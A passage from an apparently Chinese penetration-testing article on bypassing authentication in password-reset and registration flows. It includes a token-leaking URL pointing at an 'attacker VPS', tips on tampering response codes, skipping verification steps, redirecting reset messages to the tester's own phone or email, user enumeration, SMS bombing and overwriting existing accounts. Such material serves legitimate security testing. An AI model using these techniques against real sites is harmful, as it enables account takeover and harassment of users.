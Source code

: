 ```
http://攻击者VPS/password-reset?token=xxxxxxxx
```

当受害者访问此 URL 之后便可在自己的 VPS 日志中到后面的 token 值达到我们重置密码的目的。

（3）修改响应状态，绕过修改密码。

当返回包出现 true\\false、0\\1 等信息可以尝试进行修改，可能会有出人意料的结果。曾经遇到过一个案例，当尝试修改返回包 code 值时，将其从 0 到 9 进行遍历，当 code 值为 7 的时候不用找回密码便直接登录了。。

（4）F12 大法

有的重置密码可能会有以下步骤 1. 输入账户名 2. 验证身份 3. 重置密码 4. 完成。当你进行了 1 之后，直接去修改 URL 或者前端代码去进行 3 步骤从而也能成功的绕过了 2 的验证去重置密码。

（5）有时候修改密码的时候会给邮箱或者手机发送一个新密码，那么抓包将手机号或者邮箱改成我们自己的可能会绕过其认证方式。

#### 2\. 用户注册

（1）用户枚举

通过返回包中的信息判断用户是否注册。

（2）任意用户注册

没有对用户信息进行校验。

（3）XSS、SQL 注入

（4）短信轰炸

这种在注册中比较常见，不断 repeater 即可，如果目标站增加了一些防护，可以加一些换行符等特殊字符绕过。

（5）重复注册他人账号

当注册时显示用户已经注册了，我们可以在新用户注册的时候抓包，更改用户信息，可能会覆盖原用户并重新注册。

**总结**

身份认证类问题其实更多的是逻辑问题，只要我们足够细心，在关键地方进行尝试，说不定就可以得到意想不到的结果。现在在挖掘中更多的是思路的寻找，而不仅仅局限于以上总结。有些漏洞也是通用的，不仅仅出现在登录框等页面，比如在重置密码处说的修改响应状态，完全可以在登录或者注册时套用。同时也要注意组合漏洞的使用，漏洞之间的相互组合也能达到绕过身份认证的目的。

### 参考链接：

```
https://blog.csdn.net/chest\_/article/details/103941792#%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C

https://www.freebuf.com/articles/web/217052.html

https://www.secpulse.com/archives/136720.html

......
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCib3lXZ8VOn2rZTucMwvh4zy1ILxSAqsCmou2iaVOcctFp6hibwLC721K8g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)